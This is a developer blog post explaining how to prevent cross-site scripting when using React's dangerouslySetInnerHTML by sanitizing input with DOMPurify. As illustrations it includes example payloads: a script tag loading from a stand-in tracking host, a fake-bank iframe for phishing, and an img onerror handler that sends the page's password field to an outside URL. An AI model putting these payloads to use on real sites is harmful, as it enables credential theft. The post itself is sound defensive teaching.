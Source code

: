 ```yaml
---
title: Mitigate XSS exploits when using React's dangerously​SetInnerHTML
description: With the great power of dangerously​SetInnerHTML, comes great responsibility
posted: "2022-08-14"
updated: "2022-08-14"
image: /assets/images/posts/lautaro-andreani-xkBaqlcqeb4-unsplash.jpg
credit:
  [
    Lautaro Andreani,
    https://unsplash.com/@lautaroandreani?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText,
  ]
status: published
---
```


**TL: DR;** Blinding dumping content into `dangerously​SetInnerHTML` is exactly that - dangerous. Make sure you are sanitising any input you pass to dangerously​SetInnerHTML unless you have explicit control of the input.

The following component serves as a simple example of mitigating the risk of an XSS attack via dangerously​SetInnerHTML:

```jsx title="DangerousHtml.jsx"
//https://github.com/cure53/DOMPurify
import React from "react";
import DOMPurify from "dompurify";

const sanitize = (dirty) => DOMPurify.sanitize(dirty);

const DangerousHtml = ({ innerHTML, tag }) => {
  const clean = sanitize(innerHTML);

  if (typeof tag === "undefined") {
    return <div dangerouslySetInnerHTML={{ __html: clean }} />;
  }
  return <tag dangerouslySetInnerHTML={{ __html: clean }} />;
};

export default DangerousHtml;
```

By using our bespoke `DangerousHtml` component, we can dramatically reduce the risk of an XSS exploit as we're sanitising our input before it gets to the actual `dangerously​SetInnerHTML` prop

`DOMPurify` is highly configurable too, so it might be the case that you want to have multiple components like our example to handle specific use cases or allow some of the below examples explicitly.

Below are some brief examples of how the exploits could take place:

## Exploiting iFrame and Script Tags

XSS is possible as React will not strip out the script tag which points to a malicious payload.

We really shouldn't be passing iFrames in this way either. Rather, we should pass the URL and any other "safe" attributes as a props and render it ourselves in an iFrame tag to retain control of it's rendering ability's and source, or have a dedicated iFrame component.

For example, consider rhe following malicious markup that we've received from an API request. If we blindly set it via _dangerously​SetInnerHTML_, we'll give the user this output:

```jsx
// Bad markup going in
<div
  dangerouslySetInnerHTML={{
    __html: `<p>
  Hi
  <script src="https://example.com/malicious-tracking"></script>
  Fiona, here is the link to enter your bank details:
  <iframe src="https://example.com/defo-not-the-actual-bank"></iframe>
</p>`,
  }}
/>
```

```html
<!-- Bad markup rendered on the DOM -->
<div>
  <p>
    Hi
    <script src="https://example.com/malicious-tracking"></script>
    Fiona, here is the link to enter your bank details:
    <iframe src="https://example.com/defo-not-the-actual-bank"></iframe>
  </p>
</div>
```

However, using our DangerousHTML component instead, means that we have mitigated most of the risk the user may have faced:

```jsx
// Bad markup going in
<DangerousHtml
  innerHTML={`<p>
  Hi
  <script src="https://example.com/malicious-tracking"></script>
  Fiona, here is the link to enter your bank details:
  <iframe src="https://example.com/defo-not-the-actual-bank"></iframe>
</p>`}
/>
```

```html
<!-- Clean markup rendered on the DOM -->
<div>
  <p>Hi Fiona, here is the link to enter your bank details:</p>
</div>
```

Fiona may think that the website is broken or missing content for some reason - but this is still better than being phished for their bank details!

## Attribute manipulation/poisoning

Some DOM elements have special attributes that we can abuse that we should protect ourselves against.

In this example, we can run some JS on an `<image>` tag's `onerror`.

For example, given the following:

```jsx
// Bad markup going in
<div
  dangerouslySetInnerHTML={{
    __html: `
<p>
  Hola
  <img
    src='none.png'
    onerror='fetch("https://example.com/malicious-tracking?password=" + document.querySelector("input#password").value);'
  />
  Sharon
</p>`,
  }}
/>
```

```html
<!-- Bad markup rendered on the DOM -->
<div>
  <p>
    Hola
    <img
      src="none.png"
      onerror='fetch("https://example.com/malicious-tracking?password=" + document.querySelector("input#password").value);'
    />
    Sharon
  </p>
</div>
```

In this instance, our poisoned markup is stealing data from the DOM when the image request eventually fails and the user will never even know.

We can mitigate this again with our DangerousHtml component

```jsx
// Bad markup going in
<DangerousHtml
  innerHTML={`
<p>
  Hola
  <img
    src='none.png'
    onerror='fetch("https://example.com/malicious-tracking?password=" + document.querySelector("input#password").value);'
  />
  Sharon
</p>`}
/>
```

```html
<!-- Clean markup rendered on the DOM -->
<div>
  <p>
    Hola
    <img src="none.png" />
    Sharon
  </p>
</div>
```

Given the argument that we may genuinely want to execute some JS to show a fallback image, we should again not be trusting raw, unsanitized HTML to do this for us and would be better served either having a `fallbackImageURL` or `onError` prop that we can explicitly add to our image tag like so:

```jsx
// Usual imports
const MyImageComponent = ({ fallbackUrl, url }) => {
  // Usual component setup

  const displayFallbackImage = (evt) => {
    // If there is no fallback, do nothing
    if (!fallbackUrl) return;

    // set the url to the fallbackUrl
    evt.target.src = fallbackUrl;
  };

  return (
    <img
      src={url}
      onerror={displayFallbackImage}
      // ... any other props
    />
  );
};
```
